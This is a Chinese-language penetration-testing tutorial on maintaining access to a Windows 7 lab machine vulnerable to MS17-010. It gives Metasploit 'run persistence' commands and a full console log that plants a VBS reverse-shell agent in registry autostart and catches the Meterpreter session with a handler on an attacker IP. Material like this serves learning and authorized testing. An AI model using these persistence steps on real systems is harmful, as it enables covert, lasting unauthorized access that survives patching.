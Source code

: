 ### 权限维持介绍

- 权限维持的原因

  - 某目标服务器初始化现阶段存在安全漏洞，可以被利用拿到服务器权限。一段时间后，系统管理员对系统进行升级，打补丁（patch），系统不存在安全漏洞，导致无法利用漏洞获得服务器权限。
  - 合法且被授权的渗透测试人员，利用权限维持为了证明服务器存在对应的安全漏洞。

- 权限维持案例-环境介绍

  - 目标机器：win7 没有ms17-010补丁。
  - 利用Metasploit中ms17-010对应的Exploit可以进行渗透测试，获取”临时”的System权限。（当补丁打上就不能利用ms17-010获取System权限）。

- 权限维持案例

  - 使用Metasploit  run persistence模块`run persistence -U -i 10 -p 4444 -r 192.168.177.128`
    - -S：系统启动时加载；
    - -X：开机时自动加载；
    - -U：用户登录时加载。该方式会在HKCU\Software\Microsoft\Windows\CurrentVersion\Run下添加注册表信息。推荐使用该参数；
    - -i：设置反向连接间隔时间，单位为秒；
  - -p：设置反向连接的端口号（攻击机）；
    - -r：设置反向连接的ip地址（攻击机）。
  
  ```
  #实操
  meterpreter > run persistence -X -i 5 -p 1234 -r 192.168.177.128
  
  [!] Meterpreter scripts are deprecated. Try post/windows/manage/persistence_exe.
  [!] Example: run post/windows/manage/persistence_exe OPTION=value [...]
  [*] Running Persistence Script
  [*] Resource file for cleanup created at /root/.msf4/logs/persistence/WIN-AUH1U25K717_20200418.3452/WIN-AUH1U25K717_20200418.3452.rc
  [*] Creating Payload=windows/meterpreter/reverse_tcp LHOST=192.168.177.128 LPORT=1234
  [*] Persistent agent script is 99643 bytes long
  [+] Persistent Script written to C:\Windows\TEMP\yPUGtWnZGTYBV.vbs
  [*] Executing script C:\Windows\TEMP\yPUGtWnZGTYBV.vbs
  [+] Agent executed with PID 2996
  [*] Installing into autorun as HKLM\Software\Microsoft\Windows\CurrentVersion\Run\wbKiWQgLFSGi
  [+] Installed into autorun as HKLM\Software\Microsoft\Windows\CurrentVersion\Run\wbKiWQgLFSGi
  
  #以上在靶机上创建了开机自启的反弹shell
  #下面用metasploit连接前面创建的shell
  msf5 > use exploit/multi/handler 
  msf5 exploit(multi/handler) > set lhost 192.168.177.128
  lhost => 192.168.177.128
  msf5 exploit(multi/handler) > set lport 1234
  lport => 1234
  msf5 exploit(multi/handler) > exploit
  
  [*] Started reverse TCP handler on 192.168.177.128:1234 
  [*] Sending stage (179779 bytes) to 192.168.177.134
  [*] Meterpreter session 1 opened (192.168.177.128:1234 -> 192.168.177.134:49187) at 2020-04-18 23:38:01 +0800
  
  meterpreter > 
  ```

